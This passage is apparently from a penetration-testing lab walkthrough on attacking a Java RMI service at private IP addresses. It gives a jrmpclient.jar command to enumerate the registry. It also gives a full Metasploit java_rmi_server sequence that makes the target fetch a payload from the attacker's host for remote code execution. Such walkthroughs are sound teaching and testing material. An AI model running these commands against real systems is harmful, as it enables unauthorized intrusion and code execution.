 ### Exploitation
##### Exploiting the Unauthenticated Access to Registry Vulnerability
Use `jrmpclient.jar` or a custom script to list the objects bound list int the RMI registry. 
```
java -jar jrmpclient.jar 192.168.1.103 1099
```
we can attempt to bind a new, malicious object in the registry if it allows unauthenticated binding. This typically requires writing Java code to register the object on the RMI server. 

##### Exploiting the Deserialization Vulnerability to get a RCE
For this we a using a metasploit module 
```
msconsole -q
msf > search java_rmi
msf > use exploit/multi/misc/java_rmi_server
msf exploit(multi/misc/java_rmi_server) > show options
msf exploit(multi/misc/java_rmi_server) > set RHOSTS 192.168.1.103
msf exploit(multi/misc/java_rmi_server) > set LHOST 192.168.1.101
msf exploit(multi/misc/java_rmi_server) > set SRVHOST 192.168.1.101
msf exploit(multi/misc/java_rmi_server) > set SRVPORT 8080
msf exploit(multi/misc/java_rmi_server) > run
```
![](../images/exploiting_java_rmi_1.png)